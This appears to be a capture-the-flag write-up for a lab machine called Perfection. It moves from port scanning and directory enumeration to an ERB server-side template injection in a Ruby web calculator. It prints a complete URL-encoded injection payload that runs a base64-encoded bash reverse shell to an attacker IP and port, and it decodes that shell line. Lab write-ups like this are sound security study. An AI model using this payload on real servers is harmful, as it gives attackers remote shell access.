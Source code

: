 Let's start pinging:

(pic1)

Receives packets. Now let's start scanning the domain:

(pic2)

3 open ports. One ssh, http and http-alt. Let's analyze the http because it is a good way to start analyzing the webserver site. We begin by using gobuster to analyze the possible directories in the domain:

(pic3)

The URLs were analyzed and couldn't find any useful information on those URLs. Let's enter manually into the site:

(pic6)

The webpage is an interactive calculator. Visiting "About Us" and "Calculate your weighted grade" we find that there is a input section that interact with the site.

(pic7)

Let's get more information about this site to infere what kind of attacks is this site vulnerable to:

(pic4)

Observe that the site contains `Content-Type: text/html;charset=utf-8` and `Server: WEBrick/1.7.0 (Ruby/3.0.2/2021-07-07)`. So this developer must have used Ruby to develop the site. Let's analyze the content:

(pic8)

There are no clues that the frontend is running Ruby (no `<% %>/erb/ruby/rhtml` keywords). As far as the analysis can go, it seems a normal html site. Nonetheless, from the previous pictures we know that the server is using WEBrick 1.7.0, which is a Ruby-based web server. This must be specifying that the backend is running Ruby.

Let's look on Google a bit of information by typing "server-side template injection ruby" to see if there is a way to inject malicious code. Checking on Github you can find "Ruby" section in this [link](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#ruby:~:text=%5D).toArray())%20%7D%7D-,Ruby,-Ruby%20%2D%20Basic%20injections)

The only way we have to introduce a payload into the webserver is through the interactive calculator. So let's play with it obbeying its requirements described at the bottom. Using burpsuite and analyzing the request. We can observe that we can introduce a payload into the webserver. Nonetheless, we must know that we cannot use the same payload technique we used in Headless because Perfection is based on Ruby. Moreover, in one of the pictures we can observe that has XSS injection: Blocked. So instead of doing an XSS injection to get admin privileges, we are going to try to get a reverse shell to the Ruby webserver. The burpsuite analysis is the following:

(pic9)

#### Thinking about the payload

Now comes the tricky part of this machine. What would be the correct payload (among the possible ones) for this server?

Reading the previous URL, we find they have a specific case for ERB basic injection: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#ruby:~:text=ERB%3A-,%3C%25%3D%207%20*%207%20%25%3E,-Slim%3A
What is an ERB in Ruby? ERB (Embedded Ruby) is a templating system built into Ruby that allows you to embed Ruby code directly into your text files, including HTML, XML, or even plain text documents.

So, we know that the site uses html content, but the backend uses Ruby. So it is highly likely that the this ERB injection will work. We will embed an ERB command injection into the html site for the server to interpretate the command and get the reverse shell.

In the URL they show the case `<%= 7 * 7 %>`.
Nonetheless our goal is to inject a reverse shell into the Ruby webserver, not multiplying. So in Ruby terminology would be something of style:
`<%= system("echo + payload");=>'.
Also, we must know that the Ruby server only interpretates commands URL encoded. So both the payload and the command injection myst be URL encoded.
Reading this documentation (in Spanish) https://www.uv.es/jac/guia/hexawin.htm
The command injection must be as follows:
`<%25%3dsystem("echo+URLencoded(payload);%25>`.
Using our previously encoded payload (first into base64 and later into URL encode) the final command injection is as follows:

category1=test1%0A<%25%3dsystem("echo+YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC43Ni83MzczIDA%2BJjE%3D|+base64+-d+|+bash");%25>1

Why %0A at the beginning of the payload? For Ruby to interpretate test1 and then independently the payload as a newline.
The part `|+base64+-d+|+bash`in the injection payload is used to decode a base64-encoded string and then execute it as a shell command.
1. First ruby decodes the string in URL format
2. Then the first pipe `|` orders to decode the base64-encoded string
3. The result is then sent to a second pipe `|` that takes the decoded output and passes it as input to the `bash` command.
4. `bash` executes the input as a shell script

The base64 string decodes into:

bash -i >& /dev/tcp/10.10.14.76/7373 0>&1

`bash -i` starts an interactive bash shell
`>& /dev/tcp/10.10.14.76/7373 0>&1`: Redirects the input and output of the bash shell (target) to a TCP connection to 10.10.14.76 on port 7373 (to our netcat listerner).

This effectively sets up a reverse shell, where the compromised server connects back to the attacker's machine, giving the attacker remote control over the server.
